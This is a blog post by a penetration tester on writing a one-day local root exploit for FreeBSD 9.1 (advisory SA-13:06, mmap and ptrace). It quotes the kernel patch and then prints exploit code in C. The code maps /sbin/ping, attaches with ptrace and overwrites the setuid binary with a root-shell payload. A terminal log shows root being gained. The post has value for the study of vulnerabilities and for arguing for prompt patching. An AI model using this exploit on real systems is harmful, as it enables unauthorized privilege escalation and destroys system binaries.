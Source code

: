```yaml
---
layout: post
title: I feel lucky - or why I wrote a FreeBSD 1-day in one day
author: hugsy
tags:
- freebsd
- pentest
date: 2013-06-20 00:00 +0000
---
```


Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================

--- sys/vm/vm_map.c	(revision 251636)

+++ sys/vm/vm_map.c	(working copy)

@@ -3761,6 +3761,12 @@ RetryLookup:;
 		vm_map_unlock_read(map);
 		return (KERN_PROTECTION_FAILURE);
 	}
+	if ((fault_typea & VM_PROT_COPY) != 0 &&

+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&

+	    (entry->eflags & MAP_ENTRY_COW) == 0) {

+		vm_map_unlock_read(map);

+		return (KERN_PROTECTION_FAILURE);

+	}

 	/*
 	 * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

_Note_: I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)
```c
int fd = open("/sbin/ping", O_RDONLY);
caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);
```

2. `fork` to passe to be the mmaped address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with
```c
	if (ptrace(PT_ATTACH, pid, 0, 0) < 0) {
		perror("[-] ptrace(PT_ATTACH) failed");
		return;
	}
   [...]
   int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
	write(fd,
         "#include <stdio.h>\n"\
         "main(){ "\
         "char* s[]={\"/bin/sh\",NULL};"\
         "setuid(0);execve(s[0],s,0); }\n",
         84);
	close(fd);
	system("gcc -o ./sc ./sc.c");
```

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`
```c
   fd = open("./sc", O_RDONLY);
	while (1) {
		int a;
		int n = read(fd, &a, sizeof(int));
		if (n <= 0) break;
		ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
		i+=n;
	}
```

Done! Simply execute the target binary to get a root shell.

```bash
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 # id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privesc I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)

